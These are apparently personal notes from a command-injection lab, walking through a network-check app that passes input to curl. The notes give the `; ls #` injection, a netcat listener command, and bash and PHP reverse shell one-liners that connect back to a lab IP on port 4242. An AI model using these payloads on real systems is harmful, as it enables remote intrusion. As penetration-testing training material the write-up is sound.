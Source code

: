 ##  Command Injection - Basics
### Normal App Functionality
- Access first command injection lab
- Has a network check functionality
- Enter in a URL to check connection
- Enter `https://tcm-sec.com/` and it displays the curl command and the result

  ![image](https://github.com/user-attachments/assets/029d7347-c4a8-48a3-810d-2cfd27c89e15)
### Try Payloads for Different Behavior
- After trying a few different payloads, I found that it needs a `;` in the beggining and a `#` at the end
- Enter `; ls #` returns the execution of `ls` listing the contents of the directory

  ![image](https://github.com/user-attachments/assets/d671e376-1dc3-4107-bccd-48071490901d)
- Since this isn't very nice to read, view the source with ctrl+u, and it is easier to read
### Reverse Shell
- Let's try to pop a reverse shell with bash
- Set up netcat listener: `nc -lvnp 4242`
- It is good practice to user the absolute path for binaries: `/bin/bash`
- Enter `; /bin/bash -i> & /dev/tcp/10.0.2.14/4242 0>&1 #`, didn't work
- Knowing when we listed the contents of the directory and saw all the php files, we could try using php
- Enter `; /usr/local/bin/php -r '$sock=fsockopen("10.0.2.15",4242);exec("/bin/sh -i <&3 >&3 2>&3");' #` and the browser hangs
- Checking the listener, we caught a shell!
  
  ![image](https://github.com/user-attachments/assets/9bf00c7a-c239-4d6f-a426-0a282196994f)
